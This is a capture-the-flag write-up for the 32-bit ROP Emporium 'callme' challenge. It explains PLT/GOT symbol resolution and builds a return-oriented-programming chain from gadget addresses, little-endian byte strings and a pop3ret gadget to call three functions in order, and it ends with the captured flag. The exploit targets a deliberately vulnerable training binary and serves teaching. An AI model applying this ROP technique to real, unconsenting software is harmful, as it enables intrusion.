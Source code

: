 # CALLME Writeup

This challenge is based on the *Procedure Linkage Table (PLT)*. At static time (i.e., before executing) we do not know from the binary itself (i.e.,callme) the effective virtual addresses of the functions imported from external libs. The references to external symbols (e.g., functions) are resolved at runtime by the dynamic linker. Each external symbol has a corresponding placeholder (see .plt section of the elf) which points to an entry of the Global Offset Table (.got.plt section of the elf).

From the challenge we already know the following:
* at "high-level" we need to chain callme\_one, callme\_two and callme\_three exactly in this order.
* we need to pass the arguments (1,2,3) to each function, in the mentioned order.

## 32bit

### Prologue

From the _ret2win_ challenge we already know the size of the buffer and the payload we need to inject into it in order to make it overflow (44 bytes to overflow). Also, from the same challenge, we know that the vulnerable buffer is used by the _fgets_ call inside _pwnme_ function.

### Analysis

First of all, lets analyze the imported symbols in the callme32 binary with radare2:

```bash
rabin2 -i callme32
[Imports]
   1 0x00000000    WEAK  NOTYPE _ITM_deregisterTMCloneTable
   2 0x08048590  GLOBAL    FUNC printf
   3 0x080485a0  GLOBAL    FUNC fgets
   4 0x080485b0  GLOBAL    FUNC callme_three
   5 0x080485c0  GLOBAL    FUNC callme_one
   6 0x080485d0  GLOBAL    FUNC puts
   7 0x00000000    WEAK  NOTYPE __gmon_start__
   8 0x080485e0  GLOBAL    FUNC exit
   9 0x080485f0  GLOBAL    FUNC __libc_start_main
  10 0x08048600  GLOBAL    FUNC setvbuf
  11 0x08048610  GLOBAL    FUNC memset
  12 0x08048620  GLOBAL    FUNC callme_two
  13 0x00000000    WEAK  NOTYPE _Jv_RegisterClasses
  14 0x00000000    WEAK  NOTYPE _ITM_registerTMCloneTable
```
All of these symbols are resolved at runtime by the dynamic linker.
Reasoning about how dynamic linker resolves symbols and .plt section...
We can see the placeholders of the functions we are interested in from the disassembled binary (using IDA pro). As expected, the placeholders are stored in the .plt section:

![IDA-callme32-plt](img/callme32-0.png "IDA-callme32-plt")

### Build the ROP chain

Since these placeholders will be properly resolved at runtime by the dynamic linker we just need to call/reference them using the vaddrs given in the .plt.
So far we can build a piece of our ROP chain:

```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endian format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+one+two+three+
call_two+one+two+three+
call_three+one+two+three
# stack view
three
two
one
call_three
three
two
one
call_two
...
```
To complete our chain we need a proper ROP gadget: a set of asm instruction in the current binary which we will use as an handler to set up our environment and jump to the addresses we are interested in. Looking at the current chain, we need something that pops the arguments from the stack into the registers and then jumps to the current addr pointer by ESP (stack pointer). The latter is exactly what the _ret_ instruction does while the former can be achieved through several _pop \<register_name\>_ instructions. The ret instruction pops the current address from the top of the stack (ESP) into the EIP register and then jumps to the addr stored in EIP, effectively executing it. Luckily, we can use the _ropgadget_ feature of gdb-peda to check if there are common gadgets in our binary:

The result is:
```bash
ret = 0x8048562
popret = 0x8048579
pop2ret = 0x80488aa
pop3ret = 0x80488a9
pop4ret = 0x80488a8
addesp_12 = 0x8048576
addesp_16 = 0x80486a5
```

Uhm, the vaddr tagged as "pop3ret" seems interesting (pops 3 addresses from stack: 1,2,3 and then execs ret), lets inspect it with gdb:
```bash
80488a9:	5e                   	pop    %esi # pop $0x3 in ESI
80488aa:	5f                   	pop    %edi # pop $0x2 in EDI
80488ab:	5d                   	pop    %ebp # pop $0x1 in EBP
80488ac:	c3                   	ret    	# jmp to EIP, which contains the "call_X" vaddr
```
Bingo. Now, we need to understand where to insert this gadget in our chain.
It is easy if you think about what the gadget does and how the stack works. We would like end up with something like this on the stack:
```bash
0x3
0x2
0x1
rop_gadget
call_X_addr
```
So that when rop\_gadget is executed we get the following state:
```bash
ESI=0x3 # pop result
EDI=0x2 # pop result
EBP=0x1 # pop result
jump to call_X_addr # ret result
```

[Side Note:start]

Looking at the disassembled binary:
* The _puts@plt_ is the actual glibc call which implements (the "high-level") printf
* About envars:
```bash
LD_BIND_NOW=1
export LD_BIND_NOW
```
The envar is checked by the dynamic linker, it instructs the linker to resolve all the external references immediately before starting the execution of the program. This approach results in a slower initial execution of your binary because all the references have to be resolved before starting it. Anyway, subsequent calls to the resolved symbols will be faster cause the related got.plt table entries have already been filled with their addresses.

[Side Note:end]

### Execute the exploit

Wrapping-up, we have built the following ROP chain:
```bash
# vaddrs converted in little endian format (used by x86,x86_64 architectures)
call_one="\xc0\x85\x04\x08"
call_two="\x20\x86\x04\x08"
call_three="\xb0\x85\x04\x08"
# arguments of the function calls (little endian format)
one="\x01\x00\x00\x00"
two="\x02\x00\x00\x00"
three="\x03\x00\x00\x00"
# our ROP gadget (little endian format)
pop3ret="\xa9\x88\x04\x08"
# build current (incomplete) chain. remember: the stack uses a LIFO policy for its elements
call_one+pop3ret+one+two+three+
call_two+pop3ret+one+two+three+
call_three+pop3ret+one+two+three
```
Which you can better view in the script code shipped with this markdown file.

Result:
```bash
callme by ROP Emporium
32bits

Hope you read the instructions...
> ROPE{a_placeholder_32byte_flag!}
```

## 64bit

## Tools

* IDA pro: a multi-processor disassembler and debugger. The de-facto standard to dissassemble binaries
* [gdb-peda](https://github.com/longld/peda): a python extension for gdb. Useful to inspect binaries, search for patterns, gadgets, generate shellcodes, etc.
* [radare2](https://github.com/radare/radare2): another disassembler, binaries analyzer
